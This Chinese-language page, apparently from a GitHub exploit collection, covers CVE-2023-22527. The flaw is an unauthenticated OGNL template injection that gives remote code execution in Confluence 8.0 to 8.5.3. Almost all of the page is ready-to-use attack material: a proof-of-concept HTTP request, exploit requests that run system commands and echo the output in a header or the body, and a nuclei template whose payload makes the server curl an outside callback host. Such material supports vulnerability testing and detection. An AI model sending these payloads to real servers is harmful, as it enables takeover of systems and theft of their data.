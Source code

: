 ## Atlassian Confluence 远程代码执行漏洞(CVE-2023-22527)

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

## poc
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

label=test\u0027%2b#{3*33}%2b\u0027
```

## exp
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

回显在body exp
```
label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter.write((new+freemarker.template.utility.Execute()).exec({"id"}))

```
![image](../../images/60ed0618-c378-49c4-bbdc-c7c8067cb461.png)

## nuclei
```
id: CVE-2023-22527

info:
  name: Atlassian Confluence - Remote Code Execution
  author: iamnooob,rootxharsh,pdresearch
  severity: critical
  description: |
    A template injection vulnerability on older versions of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance. Customers using an affected version must take immediate action.
    Most recent supported versions of Confluence Data Center and Server are not affected by this vulnerability as it was ultimately mitigated during regular version updates. However, Atlassian recommends that customers take care to install the latest version to protect their instances from non-critical vulnerabilities outlined in Atlassian’s January Security Bulletin.
  reference:
    - https://confluence.atlassian.com/pages/viewpage.action?pageId=1333335615
    - https://jira.atlassian.com/browse/CONFSERVER-93833
    - https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2023-22527
    epss-score: 0.00044
    epss-percentile: 0.08115
    cpe: cpe:2.3:a:atlassian:confluence_data_center:*:*:*:*:*:*:*:*
  metadata:
    max-request: 1
    vendor: atlassian
    product: confluence_data_center
    shodan-query: http.component:"Atlassian Confluence"
  tags: cve,cve2023,confluence,rce,ssti

http:
  - raw:
      - |+
        POST /template/aui/text-inline.vm HTTP/1.1
        Host: {{Hostname}}
        Accept-Encoding: gzip, deflate, br
        Content-Type: application/x-www-form-urlencoded

        label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=(new freemarker.template.utility.Execute()).exec({"curl {{interactsh-url}}"})

    matchers-condition: and
    matchers:
      - type: word
        words:
          - 'Empty{name='

      - type: word
        part: interactsh_protocol
        words:
          - dns
```
## 漏洞来源
- https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html
- https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
- https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22527/README.zh-cn.md
